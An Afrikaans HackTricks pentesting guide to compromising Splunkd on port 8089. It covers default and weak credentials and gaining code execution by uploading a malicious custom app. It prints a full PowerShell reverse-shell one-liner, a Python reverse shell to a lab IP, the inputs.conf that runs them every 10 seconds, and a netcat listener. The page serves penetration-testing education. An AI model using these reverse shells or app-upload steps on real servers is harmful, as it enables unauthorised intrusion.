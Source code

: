 # 8089 - Pentesting Splunkd

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Basiese Inligting**

Splunk is 'n **log analise hulpmiddel** wat 'n belangrike rol speel in **die versameling, analise en visualisering van data**. Terwyl die aanvanklike doel nie was om as 'n **SIEM (Security Information and Event Management)** hulpmiddel te dien nie, het dit gewildheid verwerf in die gebied van **sekuriteitsmonitering** en **besigheidsanalise**.

Splunk-implementasies word gereeld gebruik om **sensitiewe data** te stoor en kan dien as 'n **waardevolle bron van inligting** vir potensiële aanvallers as hulle daarin slaag om die stelsel te kompromitteer. **Standaard poort:** 8089
```
PORT     STATE SERVICE VERSION
8089/tcp open  http    Splunkd httpd
```
{% hint style="info" %}
Die **Splunk webbediener loop standaard op poort 8000**.
{% endhint %}

## Enumerasie

### Gratis Weergawe

Die Splunk Enterprise proefweergawe omskakel na 'n **gratis weergawe na 60 dae**, wat **nie outentisering vereis nie**. Dit is nie ongewoon dat stelselsadministrateurs 'n proef van Splunk installeer om dit te toets nie, wat **daarna vergeet word**. Dit sal outomaties omskakel na die gratis weergawe wat geen vorm van outentisering het nie, wat 'n sekuriteitsgat in die omgewing inbring. Sommige organisasies mag vir die gratis weergawe kies weens begrotingsbeperkings, sonder om die implikasies van die afwesigheid van gebruikers-/rolbestuur ten volle te verstaan.

### Standaard Kredensiale

Op ouer weergawes van Splunk is die standaard kredensiale **`admin:changeme`**, wat gerieflik op die aanmeldbladsy vertoon word.\
Egter, **die nuutste weergawe van Splunk** stel **kredensiale** **tydens die installasieproses** in. As die standaard kredensiale nie werk nie, is dit die moeite werd om te kyk vir algemene swak wagwoorde soos `admin`, `Welcome`, `Welcome1`, `Password123`, ens.

### Verkry Inligting

Sodra jy by Splunk aangemeld is, kan ons **data blaai,** **verslae** uitvoer, **dashboards** skep, **toepassings** van die Splunkbase biblioteek installeer, en pasgemaakte toepassings installeer.\
Jy kan ook kode uitvoer: Splunk het verskeie maniere om **kode** uit te voer, soos bediener-kant Django toepassings, REST eindpunte, geskrifte insette, en waarskuwingskripte. 'n Algemene metode om afstandskode-uitvoering op 'n Splunk-bediener te verkry, is deur die gebruik van 'n geskrifte inset.

Boonop, aangesien Splunk op Windows of Linux gasheer geïnstalleer kan word, kan geskrifte insette geskep word om Bash, PowerShell, of Batch skripte uit te voer.

### Shodan

* `Splunk bou`

## RCE

### Skep Pasgemaakte Toepassing

'n Pasgemaakte toepassing kan **Python, Batch, Bash, of PowerShell skripte** uitvoer.\
Let daarop dat **Splunk met Python geïnstalleer kom**, so selfs in **Windows** stelsels sal jy in staat wees om python kode uit te voer.

Jy kan [**hierdie**](https://github.com/0xjpuff/reverse\_shell\_splunk) Splunk pakket gebruik om ons te help. Die **`bin`** gids in hierdie repo het voorbeelde vir [Python](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/rev.py) en [PowerShell](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/run.ps1). Kom ons loop deur dit stap-vir-stap.

Om dit te bereik, moet ons eers 'n pasgemaakte Splunk toepassing skep met die volgende gidsstruktuur:
```shell-session
tree splunk_shell/

splunk_shell/
├── bin
└── default
```
Die **`bin`** gids sal enige **scripts wat ons van plan is om te loop** bevat (in hierdie geval, 'n **PowerShell** omgekeerde skulp), en die standaardgids sal ons `inputs.conf` lêer hê. Ons omgekeerde skulp sal 'n **PowerShell een-liner** wees:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close(
```
Die [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) lêer vertel Splunk **watter skrip uit te voer** en enige ander voorwaardes. Hier stel ons die app as geaktiveer en sê vir Splunk om die skrip elke 10 sekondes uit te voer. Die interval is altyd in sekondes, en die invoer (skrip) sal slegs loop as hierdie instelling teenwoordig is.
```shell-session
cat inputs.conf

[script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = shell

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```
Ons het die `.bat`-lêer nodig, wat sal loop wanneer die toepassing ontplooi word en die PowerShell een-liner sal uitvoer.

Die volgende stap is om `Install app from file` te kies en die toepassing op te laai.

<figure><img src="../.gitbook/assets/image (668).png" alt=""><figcaption></figcaption></figure>

Voordat ons die kwaadwillige pasgemaakte toepassing op laai, laat ons 'n luisteraar begin met Netcat of [socat](https://linux.die.net/man/1/socat).
```shell-session
sudo nc -lnvp 443

listening on [any] 443 ...
```
Op die `Upload app` bladsy, klik op blaai, kies die tarball wat ons vroeër geskep het en klik `Upload`. So **binne-in ons die toepassing op** te laai, sal 'n **reverse shell ontvang word** aangesien die status van die toepassing outomaties na `Enabled` verander.

#### Linux

As ons met 'n **Linux-gasheer** te doen gehad het, sou ons die **`rev.py` Python-skrip** moes **wysig** voordat ons die tarball skep en die pasgemaakte kwaadwillige toepassing op laai. Die res van die proses sou dieselfde wees, en ons sou 'n reverse shell-verbinding op ons Netcat luisteraar kry en aan die gang wees.
```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```
### RCE & Privilege Escalation

In die volgende bladsy kan jy 'n verduideliking vind oor hoe hierdie diens misbruik kan word om voorregte te verhoog en volharding te verkry:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## References

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) of die [**telegram group**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
